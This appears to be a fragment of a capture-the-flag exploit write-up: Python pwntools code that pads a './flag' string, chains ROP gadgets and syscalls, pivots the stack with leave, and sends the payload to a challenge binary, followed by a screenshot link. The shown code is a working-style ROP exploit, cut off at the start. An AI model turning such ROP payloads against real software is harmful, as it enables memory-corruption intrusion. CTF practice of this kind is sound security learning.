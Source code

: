 ```python

		# wirte(1, flag, ..)
		poprax, 1, 
		poprdi, 1, 0, 
		sysret, 
		)

	payload = b'./flag\x00'.ljust(0x118, b'a') + flat(
		popr12, 0x200, popret, 0, 0, 
		movrdxr12, 

		poprax, 0, 
		poprsi, stack, 0, 0, 
		poprdi, 0, 0, 
		sysret, 

		poprdi, bss, stack - 0x8, 
		leave, 
		)
	# gdb.attach(cn, cmd)
	cn.sendline(payload)
	# pause()
	cn.sendline(rop)

exp()
cn.interactive()
```

![image-20210924222030980](https://s2.loli.net/2021/12/28/F1koRVAdwbazLIm.png)

